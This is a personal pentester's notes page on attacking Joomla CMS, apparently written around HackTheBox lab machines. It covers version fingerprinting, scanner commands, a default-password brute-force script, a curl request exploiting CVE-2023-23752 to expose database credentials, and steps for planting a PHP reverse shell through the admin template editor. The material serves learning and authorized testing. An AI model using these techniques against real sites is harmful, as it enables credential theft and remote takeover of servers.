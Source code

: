 # Joomla CMS

[![attacking_common_applications](../../../../../cybersecurity/_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)

<div class="row row-cols-lg-2"><div>

[Joomla](https://www.joomla.org/) is an open-source Content Management System (CMS) written in PHP. The version 5 is currently in development (2024).

* [GitHub](https://github.com/joomla/joomla-cms) <small>(4.4k ⭐)</small>
* [Documentation](https://github.com/joomla/joomla-cms) <small>(⛪)</small>

You can see the repartition of active Joomla installations [here](https://developer.joomla.org/stats/cms_version).
</div><div>

The admin panel default URI is: `/administrator`.
</div></div>

<hr class="sep-both">

## Joomla Pentester Notes ☠️

[![attacking_common_applications](../../../../../cybersecurity/_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)
[![devvortex](../../../../../cybersecurity/_badges/htb-p/devvortex.svg)](https://app.hackthebox.com/machines/Devvortex)

<div class="row row-cols-lg-2"><div>

The `/robots.txt` file may contain the list of interesting paths. If the website was not properly configured, `/README.txt` may be accessible. It's also possible that there is a tag `<meta name="generator" ...>`.

It some versions, we may be able to access `/administrator/manifests/files/joomla.xml`, `/media/system/js/`, or `/plugins/system/cache/cache.xml` <small>(rather unreliable and outdated)</small> to find the version.

```ps
$ curl [...].xml | xmllint --format -
```

* OWASP initiated the development of [joomscan](https://github.com/OWASP/joomscan) <small>(1.0k ⭐)</small>

```ps
$ sudo apt install joomscan
$ joomscan -u URL
[+] Detecting Joomla Version
[++] Joomla x.y.z

<SNIP... Nothing of interest>
```

* You can try to use [droopescan](/cybersecurity/red-team/tools/scanners/web/droopescan.md) <small>(not really useful)</small>

```ps
$ droopescan scan joomla --url URL
<SNIP... Nothing of interest>
```

* You can try to use [JoomlaScan](https://github.com/drego85/JoomlaScan) <small>(0.1k ⭐, 2022 🪦)</small>
</div><div>

* Default username: `admin`. Password set at install time. You can test default credentials using [joomla-bruteforce](https://github.com/ajnik/joomla-bruteforce) <small>(0.02k ⭐, 2020 🪦)</small> while you should not use it for brute force <small>(it sucks...)</small>.

```shell!
$ wget https://github.com/ajnik/joomla-bruteforce/raw/master/joomla-brute.py
$ cp /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt .
$ python joomla-brute.py -u URL -w http_default_pass.txt --username admin -v
```

* [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752): Exposed credentials `[4.0.0, 4.2.7]`. See also: [PoC (ruby)](https://github.com/Acceis/exploit-CVE-2023-23752) <small>(0.05k ⭐)</small> or manual exploitation:

```ps
$ curl -v URL/api/index.php/v1/config/application?public=true
"dbtype": "mysqli",
"host": "localhost",
"user": "xxx",
"password": "yyy"
"db": "joomla",
```

* When logged as administrator, you can upload a [reverse shell](/cybersecurity/red-team/s3.exploitation/shell/reverse_shell.md):

In Joomla 3, Navigate to `Configuration > Templates > Templates`. In Joomla 4, navigate to `System > Site Templates`. Select a template.
Create a new file or upload one if you can. You can copy-paste a shell:

```ps
$ cat revshell.php | xclip -selection clipboard
```

The file path is shown in the editor, while, for reference, mine was at the URL:  `URL/templates/<your_selected_site_name>/revshell.php`.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `/images`, `/home`, `/media`, `/templates`, `/modules`
* `/plugins`, `/includes`, `/language`, `/components`, `/api`
* `/cache`, `/libraries`, `/tmp`, `/layouts`, `/administrator`
* `/media/templates/site/<name>/assets/`
</div><div>
</div></div>